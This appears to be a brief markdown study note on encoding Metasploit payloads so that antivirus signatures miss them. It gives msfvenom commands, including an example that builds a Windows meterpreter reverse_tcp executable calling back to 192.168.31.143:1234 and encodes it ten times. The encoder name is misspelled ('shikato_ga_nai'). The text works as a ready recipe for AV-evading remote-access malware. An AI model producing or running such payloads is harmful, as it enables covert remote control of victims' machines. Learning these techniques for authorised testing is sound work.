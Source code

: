 # Encoding Metasploit Payloads

- Encoding is important because we are transferring the payload to the target i.e onto the disk, therefore we need to be conscious of Antivirus detection.
- Antivirus detects the malicious payloads based on their signatures 
- Encoding is the process of modifying the payload such that signature differs and therefore evades the AV detection.

List all MSF encoders:
```sh
msfvenom -l encoders
```

Syntax:
```sh
msfvenom -p "PAYLOAD" LHOST="LOCAL IP" LPORT="LOCAL PORT" -i 10 -e "ENCODER NAME" -f exe > Win32.exe
```
`-i` : refers to iteration. Number of times encoding payload
`-e` : Specifying the Encoder name

Example:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.31.143 LPORT=1234 -i 10 -e x86/shikato_ga_nai -f exe > Win32.exe
```
